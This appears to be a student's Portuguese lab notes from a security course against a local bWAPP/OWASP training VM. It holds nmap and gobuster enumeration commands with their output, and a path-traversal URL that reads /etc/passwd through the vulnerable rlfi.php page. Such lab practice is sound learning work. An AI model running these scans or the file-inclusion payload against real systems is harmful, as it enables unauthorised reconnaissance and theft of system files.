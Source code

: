 # cyber_sos

cp3
burble
hydra
chaves privadas e publicas
netcat?
printf?

nmap -sV 192.168.56.102 (servidor do owasp)
# lista vulnerabilidades do servidor, usar lista do thiago para testar as vulnerabilidaderqwiorj
https://tiagoalcan.notion.site/Cybersecurity-FOR-DEV-197d7765e27380d98603e484416d4a49?source=copy_link



RFI/LFI ataque de colocar arquivo dentro da host serve pra entrar na host e abrir portas etc
Colocamos um arquivo no parametro da requisição
o comando gobuster olha tudo que tem de importante no servidor

cd /usr/share/wordlists/dirb                           —acessar essa pasta
gobuster dir -u 192.168.56.102/assets/ -w big.txt

listando arquivos dentro da host:

Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 218]
/.htaccess            (Status: 403) [Size: 218]
/.svn                 (Status: 403) [Size: 213]
/1                    (Status: 200) [Size: 72580]
/2                    (Status: 200) [Size: 91665]
/4                    (Status: 200) [Size: 24700]
/3                    (Status: 200) [Size: 117977]
/alpha                (Status: 200) [Size: 3271]
/application          (Status: 200) [Size: 50419]
/clear                (Status: 200) [Size: 509]
/company              (Status: 200) [Size: 1191]
/email                (Status: 200) [Size: 1511]
/fonts                (Status: 301) [Size: 243] [--> http://192.168.56.102/assets/fonts/]                                                                 
/key                  (Status: 200) [Size: 1259]
/loading              (Status: 200) [Size: 1849]
/logo                 (Status: 200) [Size: 3028]
/profile              (Status: 200) [Size: 5015]
/sorting              (Status: 200) [Size: 1121]
Progress: 20469 / 20469 (100.00%)

link do acesso:
http://192.168.56.102/bWAPP/rlfi.php?language=/../../etc/passwd

rlfi.php é o arquivo dentro do owasp para testarmos a invasão... ai sempre usamos o language e testamos o passwd

